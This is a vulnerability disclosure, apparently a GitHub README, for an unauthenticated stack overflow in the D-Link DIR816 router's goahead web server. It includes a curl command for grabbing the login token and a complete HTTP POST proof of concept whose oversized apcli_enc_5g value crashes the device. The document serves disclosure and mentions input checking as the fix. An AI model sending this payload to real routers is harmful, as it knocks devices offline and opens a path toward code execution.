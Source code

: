 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Stack Overflow**

In `goahead` binary:

In the router's `wirelessApcli_5g` function, `apcli_mode_5g、apcli_enc_5g、apcli_default_key_5g` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `apcli_mode_5g、apcli_enc_5g、apcli_default_key_5g` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

the initial input is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `apcli_enc_5g` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/wirelessApcli_5g HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 345
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

apcli_ssid_5g=1&apcli_bssid_5g=&apcli_channel_5g=&apcli_extchannel_5g=&apcli_chwidth_5g=&apcli_wireless_mode_5g=&apcli_enc_5g=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&tokenid=1804289383
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>
